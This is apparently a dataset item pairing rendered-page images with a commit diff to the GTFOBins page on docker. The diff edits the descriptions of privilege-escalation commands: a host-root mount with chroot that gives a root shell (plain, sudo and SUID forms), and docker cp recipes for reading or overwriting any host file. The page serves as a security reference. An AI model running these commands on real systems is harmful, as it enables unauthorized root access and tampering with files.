

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/docker.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Allow to create new containers in docker file read and write

```diff
--- a/_gtfobins/docker.md
+++ b/_gtfobins/docker.md
@@ -1,30 +1,32 @@
 ---
 description: |
   This requires the user to be privileged enough to run docker, i.e. being in the `docker` group or being `root`.
+
+  Any other Docker Linux image should work, e.g., `debian`.
 functions:
   shell:
-    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
+    - description: The resulting is a root shell.
       code: docker run -v /:/mnt --rm -it alpine chroot /mnt sh
   file-write:
-    - description: Write any file by copying it to an existing container and back to the target destination on the host.
+    - description: Write a file by copying it to a temporary container and back to the target destination on the host.
       code: |
-        CONTAINER_ID=existing-docker-container
+        CONTAINER_ID="$(docker run -d alpine)" # or existing
         TF=$(mktemp)
         echo "DATA" > $TF
         docker cp $TF $CONTAINER_ID:$TF
         docker cp $CONTAINER_ID:$TF file_to_write
   file-read:
-    - description: Read any file by copying it to an existing container and back to a new location on the host.
+    - description: Read a file by copying it to a temporary container and back to a new location on the host.
       code: |
-        CONTAINER_ID=existing-docker-container
+        CONTAINER_ID="$(docker run -d alpine)"  # or existing
         TF=$(mktemp)
         docker cp file_to_read $CONTAINER_ID:$TF
         docker cp $CONTAINER_ID:$TF $TF
         cat $TF
   sudo:
-    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
+    - description: The resulting is a root shell.
       code: sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
   suid:
-    - description: Any other Docker Linux image should work, e.g., `debian`. The resulting is a root shell.
+    - description: The resulting is a root shell.
       code: ./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
 ---
```
